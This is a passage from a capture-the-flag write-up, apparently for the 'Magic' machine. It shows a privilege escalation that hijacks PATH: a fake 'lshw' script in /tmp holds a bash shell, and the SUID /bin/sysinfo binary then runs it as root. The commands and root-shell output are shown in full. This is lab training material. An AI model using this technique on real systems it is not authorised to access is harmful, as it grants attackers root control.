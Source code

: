 If we can write an executable to a directory listed in the `PATH` variable, we could trick the `sysinfo` binary into executing our own executable rather than one of the legitimate ones. To do this, we need a directory which we can write to. We can use `/tmp` since it is normally writable by anyone. We can execute `export PATH="/tmp:$PATH"` to add this directory to the beginning of the `PATH` variable as demonstrated below. Since the directories are ordered by priority, the first directory that will be searched will be the `/tmp` directory.

{% highlight none linenos %}
theseus@ubuntu:/var/www/Magic/images/uploads$ @@echo $PATH@@
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
theseus@ubuntu:/var/www/Magic/images/uploads$ @@export PATH="/tmp:$PATH"@@
export PATH="/tmp:$PATH"
theseus@ubuntu:/var/www/Magic/images/uploads$ @@echo $PATH@@
echo $PATH
@@@/tmp:@@@/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
{% endhighlight %}

Next, we create a file named "lshw" in the `/tmp` directory and ensure that it contains the command `bash 1>&0 2>&0`. We use `1>&0` and `2>&0` to redirect `STDOUT` and `STDERR` to `STDIN`. Then, we use `chmod` to turn the file into an executable. Note that we choose to name our script "lshw" but that the name can be set to any of the other three binaries as well.

{% highlight none linenos %}
theseus@ubuntu:/var/www/Magic/images/uploads$ @@echo 'bash 1>&0 2>&0' > /tmp/lshw@@
<c/images/uploads$ echo 'bash 1>&0 2>&0' > /tmp/lshw
theseus@ubuntu:/var/www/Magic/images/uploads$ @@chmod +x /tmp/lshw@@
chmod +x /tmp/lshw
theseus@ubuntu:/var/www/Magic/images/uploads$ @@/bin/sysinfo@@
/bin/sysinfo
====================Hardware Info====================
@@@root@@@@ubuntu:/var/www/Magic/images/uploads# 
{% endhighlight %}

Finally, we execute the `/bin/sysinfo` binary and it grants us a root shell since it mistakingly executes our `lshw` script rather than the legitimate `lshw` binary!


